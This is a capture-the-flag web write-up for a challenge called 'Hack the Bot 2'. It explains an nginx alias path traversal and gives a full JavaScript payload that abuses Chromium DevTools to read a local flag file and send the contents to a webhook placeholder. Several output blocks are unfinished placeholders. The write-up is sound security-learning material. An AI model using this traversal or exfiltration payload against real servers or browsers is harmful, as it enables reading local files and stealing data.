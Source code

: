 ```yaml
---
title: "Hack the Bot 2"
description: "I've developed a little application to help me with my pentest missions, with lots of useful payloads! I even let users add new payloads, but since I was in a rush I didn't have time to test the security of my application, could you take care of it?"
pubDate: 2025-03-09
ctf: "PwnMe Quals 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-pwnmequals/icon.png"
hidden: true
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/pwnmequals2025#hack-the-bot-2)

> This was a post-solve of the challenge!

This was a hard whitebox challenge, the files are available for download [here](https://github.com/sajjadium/ctf-archives/tree/64792ed55d90e43deb30cca2aa1f09e106a0eee3/ctfs/PwnMe/2025/Quals/web/Hack_the_bot_)

## Initial Look

The program is the same as the one described in the 'Initial Look' section of the [Hack the Bot 1](../25-pwnmequals-hackthebot1) writeup.

This time the flag is stored in a folder, you can see it being moved in the `Dockerfile`:
```docker
...
COPY flag2.txt /root/
...
```

### Nginx Misconfiguration

Looking at the `nginx` configuration file, there is an error:
```
events{}
user root;

http {
    server {
        listen 80;

        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /logs {
            autoindex off;
            alias /tmp/bot_folder/logs/;
            try_files $uri $uri/ =404;
        }
    }
}
```

There are more details [here](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) but here is a brief summary.

Nginx `alias` is a replacement for the path specified in `location`, for example:
```
location /i/ {
    alias /data/w3/images/;
}
```

If I sent a request to `/i/example.txt` it is getting the file from `/data/w3/images/example.txt`.

Our configuration has the following (with some lines removed for brevity):
```
location /logs {
    alias /tmp/bot_folder/logs/;
}
```

Due to the lack of the closing `/` on `/logs`, we can achieve path traversal.

If we sent the request `/logs../../../etc/passwd` it results in `/tmp/bot_folder/logs/../../../etc/passwd`.

After being traversed it resolves to `/etc/passwd`, and will return the contents of that file!

Let's test this with that payload on the webserver, with URI `http://localhost/logs../../../etc/passwd`:

```
INSERT DATA
```

We can just read the flag now! `http://localhost/logs../../../root/flag2.txt`:
```
NOT WORKING LOL
```

Oh, well that makes sense, we don't have permissions.

After a decent amount of poking around, we should have a look at the contents of `browser_cache` on the container to get an idea of what we are working with in terms of Chromium.

```
DATA AGAIN
```

### Final Payload

```js
(async () => {
  let res = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort', {
    cache: 'no-cache'
  });
  let text = await res.text();
  console.log(text);
  const lines = text.trim().split('\n');
  const port = parseInt(lines[0].trim(), 10);
  let path = lines[1].trim();
  const wsUrl = `ws://localhost:${port}${path}`;
  let ws;
  const webhook = `https://WEBHOOK/`
  
  ws = new WebSocket(wsUrl);
  let targetId = null;
  
  ws.onopen = () => {
    const createTargetCommand = {
      id: 1,
      method: 'Target.createTarget',
      params: { url: "file:///root/flag2.txt" }
    };
    ws.send(JSON.stringify(createTargetCommand));
    fetch(`${webhook}?openedWS`);
  };
  
  ws.onmessage = (event) => {
    const data = JSON.parse(event.data);
    fetch(`${webhook}?received=${btoa(event.data)}`);
    
    if (data && data.id === 1 && data.result && data.result.targetId) {
      targetId = data.result.targetId;
      fetch(`${webhook}?gotTargetId=${targetId}`);
      
      const attachCommand = {
        id: 2,
        method: 'Target.attachToTarget',
        params: { 
          targetId: targetId,
          flatten: true
        }
      };
      ws.send(JSON.stringify(attachCommand));
    }
    
    else if (data && data.id === 2 && data.result && data.result.sessionId) {
      const sessionId = data.result.sessionId;
      fetch(`${webhook}?gotSessionId=${sessionId}`);
      
      const enableRuntimeCommand = {
        id: 3,
        method: 'Runtime.enable',
        params: {},
        sessionId: sessionId
      };
      ws.send(JSON.stringify(enableRuntimeCommand));
      
      const evaluateCommand = {
        id: 4,
        method: 'Runtime.evaluate',
        params: {
          expression: 'document.documentElement.outerHTML',
          returnByValue: true
        },
        sessionId: sessionId
      };
      ws.send(JSON.stringify(evaluateCommand));
    }
    
    else if (data && data.id === 4 && data.result && data.result.result) {
      const pageContents = data.result.result.value;
      fetch(`${webhook}?contents=${btoa(pageContents)}`);
      
      const evaluateTextCommand = {
        id: 5,
        method: 'Runtime.evaluate',
        params: {
          expression: 'document.body.innerText || document.documentElement.textContent',
          returnByValue: true
        },
        sessionId: data.sessionId
      };
      ws.send(JSON.stringify(evaluateTextCommand));
    }
    
    else if (data && data.id === 5 && data.result && data.result.result) {
      const textContents = data.result.result.value;
      fetch(`${webhook}?plaintext=${btoa(textContents)}`);
    }
  };
  
  ws.onerror = (error) => {
    fetch(`${webhook}?error=${btoa(error.toString())}`);
  };
  
  ws.onclose = () => {
    fetch(`${webhook}?weclosed`);
  };
})();
```